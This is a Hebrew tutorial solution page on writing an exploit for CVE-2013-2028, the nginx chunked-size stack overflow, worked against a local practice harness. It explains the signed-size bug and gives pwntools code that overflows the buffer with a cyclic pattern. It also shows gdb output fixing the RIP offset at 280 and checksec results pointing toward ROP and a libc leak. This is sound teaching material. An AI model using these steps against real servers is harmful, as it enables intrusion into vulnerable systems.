

repository: AmitPinchasi/amittech · page: מחקר-חולשות/10 - מציאת חולשות אמיתיות/10.5 - כתיבת exploit ל-CVE אמיתי/10.5 - כתיבת exploit ל-CVE אמיתי - פתרון/index.html · generator: mkdocs

## פתרון - כתיבת exploit ל-CVE אמיתי

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא בסוף. הכתובות בפלט הן דוגמה - אצלכם הן ישתנו בכל הרצה בגלל ASLR, וזה בדיוק העניין. לעולם אל תעתיקו כתובת libc קבועה לסקריפט; תמיד חשבו אותה מהleak.

### פתרון תרגיל 1 - לקרוא את החולשה ולנסח את הפרימיטיב

מ-NVD: החולשה CVE-2013-2028 היא overflow buffer על המחסנית ב-nginx 1.3.9 עד 1.4.0, דרך בקשת HTTP עם קידוד chunked וגודל chunk זדוני.

המסע של `size` ב-harness, כשהקלט הוא `"ffffffff"`:

```text
parse_chunk_size("ffffffff"):
   accumulates digit by digit up to 0xffffffff
   the value is stored in an int -> the bit pattern 0xffffffff as a signed int = -1
   returns -1

discard_body:
   size = -1
   the check:  if (size > (int)sizeof(buf))  ->  if (-1 > 256)  ->  false!
   -> size is not clamped, stays -1
   read(0, buf, size)  ->  size_t(-1) = 0xffffffffffffffff
   -> read reads as many bytes as we send, straight into buf[256] -> overflow
```

ניסוח הפרימיטיב במשפט אחד: **כתיבה רציפה של בתים בשליטתנו מתחילת `buf` והלאה, באורך בשליטתנו, שכוללת את saved rbp ואת הreturn address - כלומר שליטה מלאה ב-RIP**. זהו בדיוק הפרימיטיב של פרק 2, רק שהדרך אליו עוברת דרך שגיאת סימן.

### פתרון תרגיל 2 - שחזור הקריסה ומציאת ה-offset

מפעילים את הoverflow ומוצאים את ה-offset עם cyclic:

```python
from pwn import *
context.binary = elf = ELF('./chunkserver')

p = remote('127.0.0.1', 1337)
p.recvuntil(b'chunk> ')
p.send(b'ffffffff\n')          # negative size -> bypasses the check
p.send(cyclic(400))
p.wait()                        # the worker crashes
```

כדי לקרוא את הערך שנחת ב-RIP, מריצים את הבינארי מקומית תחת gdb ומזינים את אותו קלט:

```text
pwndbg> r
chunk> (enter: ffffffff\n then cyclic(400))
Program received signal SIGSEGV
pwndbg> x/wx $rsp
0x7fffffffe0a8: 0x6161616e
```

ומחשבים:

```python
>>> cyclic_find(0x6161616e)
280
```

ה-offset הוא 280 (buffer 256, padding alignment, saved rbp של 8). אימות שליטה מלאה ב-RIP:

```python
p.send(b'ffffffff\n')
p.send(flat({280: p64(0xdeadbeefcafebabe)}))
# under gdb: RIP = 0xdeadbeefcafebabe -> full control
```

בדיקת ההגנות:

```bash
$ checksec ./chunkserver
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

מה שמקל: בלי canary (הoverflow מגיעה לreturn address בלי להיתפס) ובלי PIE (כתובות הבינארי קבועות). מה שחסר בגללי כיבוי: NX פעיל, אז אי אפשר shellcode על המחסנית - חייבים ROP. ASLR דלוק, אז לא יודעים את כתובת libc מראש - חייבים leak.
